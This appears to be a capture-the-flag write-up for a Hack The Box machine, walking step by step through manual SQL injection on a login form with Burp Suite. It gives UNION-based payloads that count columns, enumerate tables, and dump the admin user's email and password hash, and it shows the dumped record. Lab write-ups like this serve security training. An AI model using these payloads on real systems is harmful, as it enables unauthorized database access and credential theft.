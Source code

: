 **A tutorial for manually exploiting sqli in the sign in page without sqlmap but with burpsuite**

![image](https://user-images.githubusercontent.com/87831546/142857492-a15dd841-8ef9-47b4-b074-ff0827e1c11d.png)

1) Confirm sql injection ('# comments out any query after it):
```
email=a@a.com'#
```
![image](https://user-images.githubusercontent.com/87831546/142857635-483e64f9-b383-48e3-a81a-ae49017f7460.png)

2) Find number of columns with ORDER BY, increasing the order of numbers until we get an error
```
email=a@a.com' order by 4-- -&password=esdfs
```
order by 4 works, but order by 5 gives us an error telling us that there are 4 columns
![image](https://user-images.githubusercontent.com/87831546/142857961-b7333efa-0fae-47b9-b8fe-cbe2a87aa4d5.png)
![image](https://user-images.githubusercontent.com/87831546/142858071-7ec1ede4-8bae-4831-aef8-bada640b2bd2.png)

3) Find columns with useful data type to see if we can see the outcome of queries. We find that only the last column displays output to use
```
email=a@.com' UNION SELECT NULL,NULL,NULL,'test'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858377-8c3d41cc-6858-42b1-8b05-706eb6dfa9e5.png)

4) Find databse names - gives us an interesting table name called 'user'
```
email=a@a.com' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables -- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858532-ceff2ce1-5b8b-47dc-97e4-5eba5ef5e9a5.png)

5) Find columns for the user data (id, email, password, name)
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='user'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858926-da72f95e-3649-49e9-8ad8-c8b304877291.png)


6) Find that an admin user exists
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,name FROM user-- -&password=esdfs
```
(returns two users, admin and a. a is a user i registered on the site)
![image](https://user-images.githubusercontent.com/87831546/142859633-5bfb8a1e-ed6c-44b0-9ca3-90b23986dad3.png)

7) Dump the email and password from the admin user
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,email FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859858-88a6fcae-13dc-4b35-bf97-134547a10047.png)

```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,password FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859540-67379753-b541-47ce-a866-2e2b1f81f0ce.png)

And we get the same data that sqlmap gave us!
```
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

One thing to note is that all results seem to strangely precede with an 'a', just miss this out of all results
